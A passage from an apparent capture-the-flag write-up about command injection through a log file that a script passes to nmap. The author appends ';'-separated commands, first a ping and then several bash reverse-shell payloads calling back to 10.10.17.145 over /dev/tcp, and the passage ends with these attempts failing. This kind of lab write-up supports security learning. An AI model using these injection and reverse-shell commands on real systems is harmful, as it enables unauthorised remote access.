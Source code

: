 > With above testing, I know the format is correct, it will take 2 space as key to cut and get the column 3 as ip to scan
> So, maybe I can terminate the nmap command by ';' then set my own command to achieve command injection.
> First, I tried ping command to check my thinking is correct or not

```
echo "X X ;ping 10.10.17.145#" >> /home/kid/logs/hackers
```

![](./IMG/34.png)

> tcpdump can get the log

![](./IMG/35.png)
> Then I tried to craft a reverse shell payload 
> but this one failed.

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers; cat /home/kid/logs/hackers; echo sleep; sleep 10; cat /home/kid/logs/hackers; echo done;
```

![](./IMG/38.png)

> I tried to simplified it. 
> but it still failed 

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers
```

![](./IMG/39.png)
> Then I keep trying,

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers
```

![](./IMG/40.png)
> I checked the process, the nmap will generate a file in "recon/"
> but with my payload it will become "recon/;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'.nmap"
> The nmap command seems incomplete
